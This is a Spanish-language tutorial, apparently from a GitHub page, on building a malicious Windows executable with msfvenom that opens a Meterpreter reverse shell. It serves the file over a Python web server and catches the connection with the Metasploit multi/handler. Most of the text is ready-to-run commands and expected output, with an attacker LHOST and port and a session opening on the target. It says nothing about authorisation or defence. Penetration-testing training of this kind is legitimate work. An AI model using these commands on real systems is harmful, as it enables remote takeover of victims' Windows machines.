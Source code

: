 # Generar Payloads con Msfvenom

En este ejemplo, generaremos un archivo malicioso `.exe` para una máquina Windows utilizando `msfvenom`. El objetivo es recibir una reverse-shell con `meterpreter` a través de `Metasploit`.

### 1. Crear el archivo malicioso

Usamos `msfvenom` para crear un ejecutable malicioso que nos permitirá abrir una reverse-shell en la máquina objetivo.

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=1717 -f exe -o rs.exe
```

* **LHOST**: IP de nuestra máquina atacante.
* **LPORT**: Puerto que usaremos para la conexión de la reverse-shell.

**Salida esperada**:

```bash
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No arch selected, selecting arch: x64 from the payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rs.exe
```

### 2. Montar un servidor web con Python

Usaremos un servidor web para transferir el payload al sistema Windows objetivo.

```bash
$ ls  
rs.exe  # Verificamos que el archivo ha sido creado.

$ python3 -m http.server 80  # Montamos el servidor en el puerto 80.
```

### 3. Configurar Metasploit para manejar la conexión

Abrimos `Metasploit` y configuramos el módulo `multi/handler` con los parámetros del payload.

```bash
$ msfconsole  # Iniciar Metasploit.

msf6 > use multi/handler  # Usar el módulo multi-handler.
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.18
msf6 exploit(multi/handler) > set LPORT 1717
msf6 exploit(multi/handler) > show options  # Verificar configuración.
```

### 4. Ejecutar el Handler y recibir la Reverse-Shell

```bash
msf6 exploit(multi/handler) > run  # Iniciar el handler.

[*] Started reverse TCP handler on 192.168.1.18:1717 
```

Una vez que se ejecute el archivo en la máquina Windows, `Metasploit` abrirá una sesión `meterpreter` y recibiremos la reverse-shell.

```bash
msf6 exploit(multi/handler) > run  # Iniciar el handler.

[*] Started reverse TCP handler on 192.168.1.18:1717 
[*] Sending stage (201798 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened at 2024-10-09 01:47:00 +0200

meterpreter >
```

***
